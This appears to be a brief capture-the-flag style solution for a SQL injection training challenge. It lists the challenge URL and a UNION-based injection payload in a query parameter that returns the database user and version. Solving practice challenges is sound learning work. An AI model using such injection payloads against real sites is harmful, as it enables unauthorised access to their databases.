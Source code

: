 Chall Url: http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4

Payload: http://www.zixem.altervista.org/SQLi/level2.php?showprofile=-4%27+union%20select%20user(),version(),user(),version()+--%27

![](https://user-images.githubusercontent.com/25671488/61186385-3fed8200-a682-11e9-9181-03352f23b44d.png)
